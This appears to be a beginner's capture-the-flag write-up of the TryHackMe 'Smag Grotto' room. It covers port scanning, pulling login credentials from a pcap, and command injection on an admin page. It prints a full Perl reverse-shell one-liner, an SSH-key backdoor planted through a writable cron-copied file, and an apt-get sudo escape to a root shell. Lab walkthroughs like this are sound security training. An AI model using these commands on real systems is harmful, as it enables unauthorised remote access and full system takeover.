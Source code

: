 <p style='font-size: 200px' align="center">
  THM : CTF Smag Grotto<br>
  <img src="https://i.imgur.com/o08Runb.png">
</p>

## Summary
- [Step 1 : Nmap Scan](#step-1--nmap-scan)
- [Step 2 : Website enumeration](#step-2--website-enumeration)
- [Step 3 : Exploiting the website to get a reverse-shell](#step-3--exploiting-the-website-to-get-a-reverse-shell)
- [Step 4 : Get access to another user than www-data](#step-4--get-access-to-another-user-than-www-data)
- [Final step : Privilège escalation](#final-step--privilege-escalation)


## Step 1 : NMAP Scan
First , we need to scan the target to find open ports.  
```nmap 10.10.21.185 -oN nmapResult``` (I always store the nmap scan result in a file).    
![alt text](https://i.imgur.com/qnZT0cl.png)  
We see 2 open ports :  
- port 22 for ssh  
- port 80 for http -> the target has a website that we can enumerate.  

## Step 2 : Website enumeration
Let's see the website  
![alt text](https://i.imgur.com/PSy4ni0.png)  
Ok, so now we know that this website is under development.  
I start a dirb scan on the target website.
```dirb http://10.10.21.185/ -o dirbResult```  
(Same as nmap, i always store dirb scan result in a file).  
![alt text](https://i.imgur.com/Ezv6GfQ.png)  
We see that dirb found a mail directory ! Let's see what we have at ```http://10.10.21.185/mail/```  
![alt text](https://i.imgur.com/uME2QT1.png)  
There is a pcap file. This can be really useful to find credentials used to connect to the target with diferrent protocols.  
Also, we have three possible logins : 
- ```netadmin@smag.thm```  
- ```uzi@smag.thm```  
- ```jake@smag.thm```  


We also maybe have a domain name : smag.thm  
![alt text](https://i.imgur.com/9p3t4NF.png)  



So we found some interesting things in this pcap file :   
- In the pcap file, there is a hostname : ```development.smag.thm```  
- There is also credentials used in a login.php page  

To access the website development section, I added the line ```10.10.21.185    development.smag.thm``` to the file ```/etc/hosts``` on my machine.  
Now, if a enter ```http://development.smag.thm/``` in the address bar, i enter the hidden development section of the website.  
![alt text](https://i.imgur.com/zSFc88j.png)  


There is two files in here :
- admin.php -> if not logged in, it redirects us to login.php.  
- login.php -> here we can use the credentials we found before in the pcap file.  


So let's try to use the credentials we found in the pcap file to login on the login.php page.
![alt text](https://i.imgur.com/SmbKqGc.png)  


And we are logged in !  
We are automatically redirected to admin.php.  
![alt text](https://i.imgur.com/puRBFr4.png)  

## Step 3 : Exploiting the website to get a reverse-shell
In this page, I tried ```ls``` and ```whoami``` but there was no output. But we can try to get a reverse shell with this command input. I used a perl reverse shell found at https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  
```
perl -e 'use Socket;$i="10.x.x.x";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```  
So I set a netcat listener on port 1234. ```nc -lnvp 1234```, then I send the reverse shell command to the website, and I got a reverse shell !  
![alt test](https://i.imgur.com/Clnpl84.png)  


Let's get a bit more stable shell with python, ```python3 -c 'import pty; pty.spawn("/bin/bash")'```.  
![alt text](https://i.imgur.com/bHf9Wk3.png)  
(And yes the ip address of the target has changed, it's because I restarted the machine... it's a long story...)  

## Step 4 : Get access to another user than www-data
Now that we have a better shell, we can try to read the file ```/etc/passwd```to see users list on this machine ```cat /etc/passwd```.  
![alt text](https://i.imgur.com/4JoLmKd.png)  


We have the user jake, remember, we saw this name before in the /mail directory of the website.  So maybe we can try to connect to the machine as jake. But how can do this ? First I looked in the jake's home directory ```/home/jake```.  
![alt text](https://i.imgur.com/J1zPHY0.png)  


We can see that there is a file named ```.sudo_as_admin_successful```, that means that the user jake succesfully executed a command with sudo in the past. We can keep that in mind. We can't read any useful files, and we can't even go to the .ssh directory to try to find private ssh key... The next thing i've done was to check the crontab ```cat /etc/crontab```. 
![alt text](https://i.imgur.com/Lr8wf9Z.png)


One interesting thing here is that we have a cron task that copy ```/opt/.backups/jake_id_rsa.pub.backup``` to ```/home/jake/.ssh/authorized_keys```. The copied file is probably a public SSH key. After a little bit of research, I found something interesting about SSH public keys here : https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/. As I thought, it is possible to add our own public key to the authorized_keys file to then connect to the target without any password.  

So let's check if we can write to the ```/opt/.backups/jake_id_rsa.pub.backup```file with ```ls -l /opt/.backups/jake_id_rsa.pub.backup```.  
![alt text](https://i.imgur.com/YxCuEme.png)  


And we see that everybody can write to this file... Now we just have to create our own SSH keys and then copy our own public key to this file to connect with SSH as user jake. To generate our own keys, we need to use ```ssh-keygen -f jake_id_rsa```.  
![alt text](https://i.imgur.com/OWYhdS2.png)  


We now have two files :
- jake_id_rsa -> the private key we are going to use to connect with SSH.
- jake_id_rsa.pub -> the public key we need to copy to the ```/opt/.backups/jake_id_rsa.pub.backup``` file.  

I read the content of the public key file on my computer, and then I use ```echo '<MY PUBLIC KEY>' > /opt/.backups/jake_id_rsa.pub.backup``` on the target machine. Also, don't forget to set the right permissions for the private SSH key with ```chmod 600 jake_id_rsa```. And the we can connect with SSH as jake to the machine with ```ssh jake@10.10.24.178 -i jake_id_rsa```.  
![alt text](https://i.imgur.com/CgAIAtx.png)


We are now logged in as jake ! And we can now get the user.txt flag using ```cat user.txt```  
![alt text](https://i.imgur.com/bhPQu8t.png)

## Final step : Privilege Escalation
Now, it's time to get root ! Remember, we found a file named ```.sudo_as_admin_successful```, that means that user jake has already used a command with sudo in the past, so maybe jake has the permission to use a command with sudo without a password. To see this , we use ```sudo -l``` :  
![alt text](https://i.imgur.com/mDH59MY.png)  


We see that user jake can use sudo apt-get, and so execute the apt-get command as root without any password ! Let's see on [GTFOBins](https://gtfobins.github.io/) if we can execute a shell by using apt-get.  
![alt text](https://i.imgur.com/OQHoMBe.png)  
And yes we can ! By using ```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```.  
![alt text](https://i.imgur.com/NhQZMuR.png)  
And we have a root shell ! Now we can get the root flag with ```cat /root/root.txt```.  
![alt text](https://i.imgur.com/Ln7GE8p.png)  



Thanks for reading my first write up ! (PS : I'm a beginner in pentesting and CTFs and english is not my native language).
